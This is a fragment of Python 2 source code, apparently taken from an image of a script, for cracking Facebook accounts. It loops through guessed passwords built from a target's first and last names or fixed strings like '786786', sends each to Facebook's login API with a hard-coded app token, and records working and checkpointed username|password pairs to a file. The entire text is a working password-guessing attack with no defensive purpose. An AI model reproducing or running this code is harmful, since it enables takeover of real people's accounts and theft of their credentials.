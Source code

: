								print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass3 + ' 👽 ' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass3 + ' 👽 ' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass4)
								else:
									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass4 + ' 👽 ' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass4 + ' 👽 ' + b['name']
											cek = open("out/CP.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass5 + ' 👽 ' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass5 + ' 👽 ' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass6 + ' 👽 ' + b['name']
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass6 + ' 👽 ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()